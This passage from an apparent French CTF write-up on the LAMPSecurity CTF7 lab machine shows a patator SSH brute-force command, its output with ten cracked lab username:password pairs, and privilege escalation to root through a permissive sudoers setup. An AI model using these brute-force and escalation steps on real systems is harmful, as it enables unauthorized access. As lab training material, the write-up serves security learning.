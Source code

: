 
```console
root@blinils:~# patator ssh_login host=192.168.56.103 user=FILE0 \
password=FILE1 0=CTF7-users 1=CTF7-passwords -x ignore:mesg='Authentication failed.'

20:18:31 patator    INFO - Starting Patator v0.6 (http://code.google.com/p/patator/)
20:18:31 patator    INFO -                                                                            
20:18:31 patator    INFO - code  size   time | candidate                 |   num | mesg
20:18:31 patator    INFO - --------------------------------------------------------------------
20:18:32 patator    INFO - 0     19    0.320 | brian:my2cents            |     1 | SSH-2.0-OpenSSH_5.3
20:18:35 patator    INFO - 0     19    0.142 | john:transformersrule     |    14 | SSH-2.0-OpenSSH_5.3
20:18:37 patator    INFO - 0     19    0.105 | alice:turtles77           |    27 | SSH-2.0-OpenSSH_5.3
20:18:39 patator    INFO - 0     19    0.126 | ruby:Shelly2012           |    40 | SSH-2.0-OpenSSH_5.3
20:18:43 patator    INFO - 0     19    0.066 | leon:qwer1234             |    53 | SSH-2.0-OpenSSH_5.3
20:18:46 patator    INFO - 0     19    0.100 | julia:madrid              |    66 | SSH-2.0-OpenSSH_5.3
20:18:49 patator    INFO - 0     19    0.100 | michael:somepassword      |    79 | SSH-2.0-OpenSSH_5.3
20:18:52 patator    INFO - 0     19    0.085 | bruce:LosAngelesLakers    |    92 | SSH-2.0-OpenSSH_5.3
20:18:54 patator    INFO - 0     19    0.034 | neil:Jets4Ever            |   105 | SSH-2.0-OpenSSH_5.3
20:18:56 patator    INFO - 0     19    0.073 | charles:chuck33           |   118 | SSH-2.0-OpenSSH_5.3
20:19:03 patator    INFO - Hits/Done/Skip/Fail/Size: 10/144/0/0/144, Avg: 4 r/s, Time: 0h 0m 31s
```

## Mauvaise gestion des privilèges d'administration via le fichier /etc/sudoers

L'élévation de privilèges est un jeu d'enfant ; en effet, la plupart des comptes [disposent de privilèges](https://doc.ubuntu-fr.org/sudoers) plutôt... permissifs et sont autorisés à exécuter toutes les commandes via sudo. Il est alors possible de passer root avec la commande ```sudo su``` et le tour est joué. Seuls les comptes de Brian, John, Alice et de Julia sont concernés ; ils appartiennent effectivement au groupe ```wheel```.

```console
[brian@localhost ~]$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for brian: 
Matching Defaults entries for brian on this host:
    requiretty, !visiblepw, always_set_home, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brian may run the following commands on this host:
    (ALL) ALL
	
```